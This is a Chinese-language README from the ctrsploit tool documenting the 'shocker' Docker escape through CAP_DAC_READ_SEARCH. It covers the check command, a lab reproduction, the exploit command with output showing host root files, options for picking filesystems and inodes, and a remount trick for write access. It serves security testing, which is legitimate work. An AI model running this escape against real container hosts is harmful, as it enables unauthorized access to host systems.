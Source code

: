 ```yaml
---

tags: sploit
author: ssst0n3
spec_version: v0.1.0
version: v0.1.1
changelog:
    - v0.1.1: fix the edit link
    - v0.1.0: init

---
```


# docker CAP_DAC_READ_SEARCH(shocker) 逃逸

[edit](https://github.com/ctrsploit/ctrsploit/edit/main/vul/shocker/README.md)

## 1. 漏洞介绍

拥有 CAP_DAC_READ_SEARCH 允许调用 open_by_handle_at 系统调用。该系统调用可以通过 inode number 打开文件系统下的文件。

## 2. 利用场景

利用容器的不安全配置逃逸

## 3. 前提条件

1. 拥有cap_dac_read_search

## 4. 漏洞存在性检查

`ctrsploit checksec shocker`

## 5. 漏洞复现

### 5.1 复现环境

下面以 [ssst0n3/docker_archive:ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11_v0.1.0](https://github.com/ssst0n3/docker_archive/tree/branch_ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11) 作为复现环境。

```
$ git clone https://github.com/ssst0n3/docker_archive.git
$ cd docker_archive
$ git checkout branch_ubuntu-20.04_docker-ce-19.03.15_docker-ce-cli-19.03.15_containerd.io-1.4.3_runc-1.0.0-rc92
$ docker compose -f docker-compose.kvm.yml up -d
$ ssh -p 19315 root@127.0.0.1
root@127.0.0.1's password: root
root@ubuntu:~# docker info
Client:
 Debug Mode: false

Server:
 Containers: 0
  Running: 0
  Paused: 0
  Stopped: 0
 Images: 0
 Server Version: 19.03.15
 Storage Driver: overlay2
  Backing Filesystem: extfs
  Supports d_type: true
  Native Overlay Diff: true
 Logging Driver: json-file
 Cgroup Driver: cgroupfs
 Plugins:
  Volume: local
  Network: bridge host ipvlan macvlan null overlay
  Log: awslogs fluentd gcplogs gelf journald json-file local logentries splunk syslog
 Swarm: inactive
 Runtimes: runc
 Default Runtime: runc
 Init Binary: docker-init
 containerd version: 269548fa27e0089a8b8278fc4fc781d7f65a939b
 runc version: ff819c7e9184c13b7c2607fe6c30ae19403a7aff
 init version: fec3683
 Security Options:
  apparmor
  seccomp
   Profile: default
 Kernel Version: 5.4.0-56-generic
 Operating System: Ubuntu 20.04.1 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 2
 Total Memory: 2.43GiB
 Name: ubuntu
 ID: 4X4W:QE26:IMGY:UHI5:QPCY:NDI5:KKFJ:YWUO:RNOC:QJKR:OHOQ:TXVR
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Registry: https://index.docker.io/v1/
 Labels:
 Experimental: false
 Insecure Registries:
  127.0.0.0/8
 Live Restore Enabled: false

WARNING: No swap limit support
```

### 5.2 漏洞复现

启动存在不安全配置的容器。

```
root@ubuntu:~# docker run -ti --name poc --cap-add CAP_DAC_READ_SEARCH ubuntu
```

下载 ctrsploit 步骤略，在容器内发起逃逸攻击。

```
root@e33b98bef3c3:/# ctrsploit --colorful checksec shocker
✔  shocker      # Container escape with CAP_DAC_READ_SEARCH, alias shocker, found by Sebastian Krahmer (stealth) in 2014.

root@e33b98bef3c3:/# ./ctrsploit/bin/release/ctrsploit_linux_amd64 exploit shocker
root@8fe1576e6aef:/proc/self/fd/7# ls -lah
ls: cannot access '..': No such file or directory
total 18M
drwxr-xr-x  20 root root 4.0K Mar 25 03:59 .
d?????????   ? ?    ?       ?            ? ..
drwx------   2 root root 4.0K Dec 20 07:38 .cache
lrwxrwxrwx   1 root root    7 Dec 20 07:29 bin -> usr/bin
drwxr-xr-x   4 root root 4.0K Jan 16 07:17 boot
drwxr-xr-x   4 root root 4.0K Dec 20 07:29 dev
drwxr-xr-x 198 root root  12K Jun  7 01:52 etc
drwxr-xr-x   3 root root 4.0K Dec 20 07:41 home
lrwxrwxrwx   1 root root   33 Dec 20 07:29 initrd.img -> boot/initrd.img-6.5.0-kali3-amd64
lrwxrwxrwx   1 root root   33 Dec 20 07:29 initrd.img.old -> boot/initrd.img-6.5.0-kali3-amd64
...
```

## 6. 高级

### 6.1 `--reference` 

`reference` 参数与 OpenByHandleAt 系统调用的 mountFd 参数相关，该参数给定一个路径，用于在该路径所在的文件系统内打开 inode。

该参数默认为 `/etc/hosts` , 通常由 k8s 或 docker 等容器组件挂载进容器内。

需要通过该参数调整inode所属的文件系统。

例如以下案例， /etc/hosts 挂载自 `/dev/mapper/kubernetes`, 则 `--reference=/etc/hosts` 只能打开该文件系统下的inode。

```
$cat /proc/self/mountinfo |grep host
2297 2235 253:1 /containers/a70add2964af7d0891542a48578359192afcdb920c35260540c6d6da92fb1735/hostname /etc/hostname rw,nodev,noatime - ext4 /dev/mapper/docker rw,data=ordered
2299 2235 253:0 /pods/0255d349-f826-4f52-9e37-fbc65e085fc8/etc-hosts /etc/hosts rw,noatime - ext4 /dev/mapper/kubernetes rw,data=ordered
```

而通常 rootfs 位于类似 /dev/sda1 的文件系统， 则可尝试将指定 `--reference=/home/user/work` 。

```
$cat /proc/self/mountinfo |grep /dev/sd
2291 2235 8:1 / /home/user/work rw,relatime - ext4 /dev/sda1 rw,data=ordered
```

### 6.2 `--inode`

`inode` 参数指定目标文件/目录的 inode number。

* 如果目标是目录，则打开并chdir进入该目录；
* 如果目标不是目录，则显示stat信息，并尝试打开、读取内容。(文件内容如果过长，建议将ctrsploit输出结果重定向)

该参数默认为2 (每个文件系统的根目录的默认inode number)。

### 6.3 Read-only file system

有时成功逃逸到了主机的rootfs，但提示只读文件系统。

```
root@0d792b99e7e0:/proc/self/fd/7# ls
bin  boot  dev  etc  home  initrd.img  lib  lib32  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz
root@0d792b99e7e0:/proc/self/fd/7# touch 1
touch: cannot touch '1': Read-only file system
```

这是因为 `--reference` 指定的文件是只读挂载进容器的。如需要写操作，可以在利用 shocker 漏洞前 `mount -o remount,rw` 重新挂载为 rw。或挑选rw挂载进容器的路径作为 `reference`。